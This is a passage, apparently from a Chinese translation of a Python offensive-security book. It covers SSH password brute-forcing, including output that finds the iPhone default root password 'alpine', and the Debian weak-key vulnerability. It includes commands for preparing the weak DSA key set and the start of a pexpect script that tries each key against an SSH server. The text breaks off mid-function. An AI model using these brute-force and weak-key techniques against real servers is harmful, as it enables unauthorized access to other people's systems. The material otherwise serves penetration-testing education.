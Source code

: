 尝试用 SSH 密码暴力破解器破解得到一下结果。这很有趣当指示发现密码为“alpine”，这是 iPhone 设备的默认根密码。2009 年末，一个 SSH 蠕虫攻击了 iPhone。通常越狱的 iPhone 设备，用户能在 iPhone 上开启 OpenSSH 服务。而这被证明是非常有效的对于一些没有察觉的用户。蠕虫 iKeee 利用这个新问题尝试用默认密码攻击设备。该蠕虫的作者无意用这个蠕虫做任何破坏，但是他们更改 iphone 的背景图片为 Rick Astley 的图片，并附上一句话 “ikee never gonna give you up”.

```py
attacker# python sshBrute.py -H 10.10.1.36 -u root -F pass.txt
[-] Testing: 123456789
[-] Testing: password
[-] Testing: 1234567
[-] Testing: alpine
[-] Testing: password1
[-] Testing: soccer
[-] Testing: anthony
[-] Testing: friends
[+] Password Found: alpine
[-] Testing: butterfly
[*] Exiting: Password Found 
```

## 通过弱密钥利用 SSH

密码提供了 SSH 服务的一种验证方式，但这不是唯一一种验证方式。此外，SSH 还提过了另外一种验证方式---公钥加密。在这种情况下，服务器知道公钥，用户知道私钥。使用 RSA 或者 DSA 加密算法，服务器为登陆 SSH 的用户产生他们的密钥。通常，这提供了一个极好的验证方式。通过生成 1024 位，2048 位或者 4096 位的密钥，使我们很难用弱口令暴力破解。然而，在 2006 年 Debian Linu 的发行版发生了一些有趣的事情。一个开发者评论了一行通过代码自动分析工具找到的代码。代码的特定行保证 SSH 密钥产生的熵。通过讲解代码的特定行，密钥的搜索空间的减少到 15 位熵.不仅仅是 15 位熵，这就意味着每个算法只存在 32767 个密钥。HD Morre，CSO 和 Rapid7 的总设计师，生成了 1024 位和 2048 位的所有的密钥，在两个小时以内。此外，他使这些密钥`debian_ssh_dsa_1024_x86.tar.bz2` 可以自行下载。你可以先下载 1024 位的密钥，然后提取密钥，删除公共密钥，因为只需要私人密钥来测试连接。

```py
attacker# bunzip2 debian_ssh_dsa_1024_x86.tar.bz2
attacker# tar -xf debian_ssh_dsa_1024_x86.tar
attacker# cd dsa/1024/
attacker# ls
00005b35764e0b2401a9dcbca5b6b6b5-1390
00005b35764e0b2401a9dcbca5b6b6b5-1390.pub
00058ed68259e603986db2af4eca3d59-30286
00058ed68259e603986db2af4eca3d59-30286.pub
0008b2c4246b6d4acfd0b0778b76c353-29645
0008b2c4246b6d4acfd0b0778b76c353-29645.pub
000b168ba54c7c9c6523a22d9ebcad6f-18228
<..SNIPPED..>
attacker# rm -rf dsa/1024/*.pub 
```

这个漏洞持续了两年之久才被安全人员发现。因此，有相当多的脆弱的 SSH 服务器。如果我们能构建一个工具来利用这个漏洞就好了。然而，为了访问密钥空间，可能要写一个小的 Python 脚本来暴力遍历 32767 个密钥为了验证一个无密码，依赖公共密钥的 SSH 服务器。事实上，Warcat 小组写过这样的脚本，并将它上传到了 milw0rm，就在漏洞被发现的当天。Exploit-DB 存档了 Warcat 小组的脚本，在 [`www.exploit-db.com/exploits/5720/`](http://www.exploit-db.com/exploits/5720/) 网站上。然而，我们将编写我们自己的脚本，利用用来编写密码暴力破解的的`pexcept` 模块。

弱密钥测试的脚本和我们的暴力密码认证非常相似。为了用密钥认证 SSH，我们需要输入`ssh user@host –i keyfile –o PasswordAuthentication=no`。在下面的脚本中，我们循环的设置已生成的密钥来尝试连接。如果连接成功，我们将打印密钥文件的名字在屏幕上。此外，我们将设置两个全局变量`Stop` 和`Fails`，`Fails` 将用于统计因为远程主机关闭连接而导致的连接失败的数量。如果数量超过 5，我们将终止脚本。如果我们的扫描触发了远程 IPS(入侵防御系统)阻止我们的连接，那么就没有意义继续下去。我们`Stop` 全局变量是一个布尔值，告诉我们已经发现了一个密钥，`main()`函数也没有必要再开启新的连接进程。

```py
# coding=UTF-8
import pexpect
import optparse
import os
import threading
maxConnections = 5
connection_lock =
threading.BoundedSemaphore(value=maxConnections)
Stop = False
Fails = 0
def connect(user, host, keyfile, release):
    global Stop, Fails
    try:
```